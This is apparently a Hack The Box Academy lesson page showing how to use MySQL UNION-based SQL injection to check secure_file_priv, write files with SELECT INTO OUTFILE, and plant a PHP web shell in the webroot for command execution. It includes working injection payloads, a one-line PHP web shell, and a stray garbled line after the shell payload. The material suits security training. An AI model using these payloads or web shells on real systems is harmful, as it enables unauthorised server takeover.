 

When it comes to writing files to the back-end server, it becomes much more restricted in modern DBMSes, since we can utilize this to write a web shell on the remote server, hence getting code execution and taking over the server. This is why modern DBMSes disable file-write by default and require certain privileges for DBA's to write files. Before writing files, we must first check if we have sufficient rights and if the DBMS allows writing files.

---

## Write File Privileges

To be able to write files to the back-end server using a MySQL database, we require three things:

1. User with `FILE` privilege enabled
2. MySQL global `secure_file_priv` variable not enabled
3. Write access to the location we want to write to on the back-end server

We have already found that our current user has the `FILE` privilege necessary to write files. We must now check if the MySQL database has that privilege. This can be done by checking the `secure_file_priv` global variable.

#### secure_file_priv

The [secure_file_priv](https://mariadb.com/kb/en/server-system-variables/#secure_file_priv) variable is used to determine where to read/write files from. An empty value lets us read files from the entire file system.
* Otherwise, if a certain directory is set, we can only read from the folder specified by the variable. 
* On the other hand, `NULL` means we cannot read/write from any directory. MariaDB has this variable set to empty by default, which lets us read/write to any file if the user has the `FILE` privilege. 
* However, `MySQL` uses `/var/lib/mysql-files` as the default folder. This means that reading files through a `MySQL` injection isn't possible with default settings. Even worse, some modern configurations default to `NULL`, meaning that we cannot read/write files anywhere within the system.

So, let's see how we can find out the value of `secure_file_priv`. Within `MySQL`, we can use the following query to obtain the value of this variable:

Code: sql

```sql
SHOW VARIABLES LIKE 'secure_file_priv';
```

However, as we are using a `UNION` injection, we have to get the value using a `SELECT` statement. 
* This shouldn't be a problem, as all variables and most configurations' are stored within the `INFORMATION_SCHEMA` database. 
* `MySQL` global variables are stored in a table called [global_variables](https://dev.mysql.com/doc/refman/5.7/en/information-schema-variables-table.html), and as per the documentation, this table has two columns `variable_name` and `variable_value`.

We have to select these two columns from that table in the `INFORMATION_SCHEMA` database. There are hundreds of global variables in a MySQL configuration, and we don't want to retrieve all of them.
* We will then filter the results to only show the `secure_file_priv` variable, using the `WHERE` clause we learned about in a previous section.

The final SQL query is the following:

Code: sql

```sql
SELECT variable_name, variable_value FROM information_schema.global_variables where variable_name="secure_file_priv"
```

So, similar to other `UNION` injection queries, we can get the above query result with the following payload. Remember to add two more columns `1` & `4` as junk data to have a total of 4 columns':

Code: sql

```sql
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -
```

![Search interface with a text box and button labeled 'Search'. Below is a table with columns: Port Code, Port City, and Port Volume. Entry includes SECURE_FILE_PRIV, 3, and 4](https://academy.hackthebox.com/storage/modules/33/secure_file_priv.jpg)

And the result shows that the `secure_file_priv` value is empty, meaning that we can read/write files to any location.
## SELECT INTO OUTFILE

Now that we have confirmed that our user should write files to the back-end server, let's try to do that using the `SELECT .. INTO OUTFILE` statement. 
* The [SELECT INTO OUTFILE](https://mariadb.com/kb/en/select-into-outfile/) statement can be used to write data from select queries into files. 
* This is usually used for exporting data from tables.

To use it, we can add `INTO OUTFILE '...'` after our query to export the results into the file we specified. 
* The below example saves the output of the `users` table into the `/tmp/credentials` file:

Writing Files

```shell-session
SELECT * from users INTO OUTFILE '/tmp/credentials';
```

If we go to the back-end server and `cat` the file, we see that table's content:

Writing Files

```shell-session
canklesmaks@htb[/htb]$ cat /tmp/credentials 

1       admin   392037dbba51f692776d6cefb6dd546d
2       newuser 9da2c9bcdf39d8610954e0e11ea8f45f
```

It is also possible to directly `SELECT` strings into files, allowing us to write arbitrary files to the back-end server.

Code: sql

```sql
SELECT 'this is a test' INTO OUTFILE '/tmp/test.txt';
```

When we `cat` the file, we see that text:

Writing Files

```shell-session
canklesmaks@htb[/htb]$ cat /tmp/test.txt 

this is a test
```

Writing Files

```shell-session
canklesmaks@htb[/htb]$ ls -la /tmp/test.txt 

-rw-rw-rw- 1 mysql mysql 15 Jul  8 06:20 /tmp/test.txt
```

As we can see above, the `test.txt` file was created successfully and is owned by the `mysql` user.

Tip: Advanced file exports utilize the 'FROM_BASE64("base64_data")' function in order to be able to write long/advanced files, including binary data.

## Writing Files through SQL Injection

Let's try writing a text file to the webroot and verify if we have write permissions. The below query should write `file written successfully!` to the `/var/www/html/proof.txt` file, which we can then access on the web application:

Code: sql

```sql
select 'file written successfully!' into outfile '/var/www/html/proof.txt'
```

**Note:** To write a web shell, we must know the base web directory for the web server (i.e. web root). 
* One way to find it is to use `load_file` to read the server configuration, like Apache's configuration found at `/etc/apache2/apache2.conf`, 
* Nginx's configuration at `/etc/nginx/nginx.conf`, or IIS configuration at `%WinDir%\System32\Inetsrv\Config\ApplicationHost.config`, or we can search online for other possible configuration locations. 
* Furthermore, we may run a fuzzing scan and try to write files to different possible web roots, using [this wordlist for Linux](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-linux.txt) or [this wordlist for Windows](https://github.com/danielmiessler/SecLists/blob/master/Discovery/Web-Content/default-web-root-directory-windows.txt). Finally, if none of the above works, we can use server errors displayed to us and try to find the web directory that way.

The `UNION` injection payload would be as follows:

Code: sql

```sql
cn' union select 1,'file written successfully!',3,4 into outfile '/var/www/html/proof.txt'-- -
```

![Search interface with a text box and button labeled 'Search'. Below is an empty table with columns: Port Code, Port City, and Port Volume](https://academy.hackthebox.com/storage/modules/33/write_proof.png)

We don’t see any errors on the page, which indicates that the query succeeded. Checking for the file `proof.txt` in the webroot, we see that it indeed exists:

![Text displaying: '1 file written successfully! 3 4'](https://academy.hackthebox.com/storage/modules/33/write_proof_text.png)

Note: We see the string we dumped along with '1', '3' before it, and '4' after it. This is because the entire 'UNION' query result was written to the file. To make the output cleaner, we can use "" instead of numbers.

## Writing a Web Shell

Having confirmed write permissions, we can go ahead and write a PHP web shell to the webroot folder. We can write the following PHP webshell to be able to execute commands directly on the back-end server:

Code: php

```php
<?php system($_REQUEST[0]); ?>
```

We can reuse our previous `UNION` injection payload, and change the string to the above, and the file name to `shell.php`:

Code: sql

```sql
cn' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shell.php'-- -
```

', “ “, “ “ into outfile '/var/www/html/shell.php'-- -'>

![Search interface with a text box and button labeled 'Search'. Below is an empty table with columns: Port Code, Port City, and Port Volume](https://academy.hackthebox.com/storage/modules/33/write_shell.png)

Once again, we don't see any errors, which means the file write probably worked. This can be verified by browsing to the `/shell.php` file and executing commands via the `0` parameter, with `?0=id` in our URL:

![Text displaying: uid=33(www-data) gid=33(www-data) groups=33(www-data)](https://academy.hackthebox.com/storage/modules/33/write_shell_exec_1.png)

The output of the `id` command confirms that we have code execution and are running as the `www-data` user.

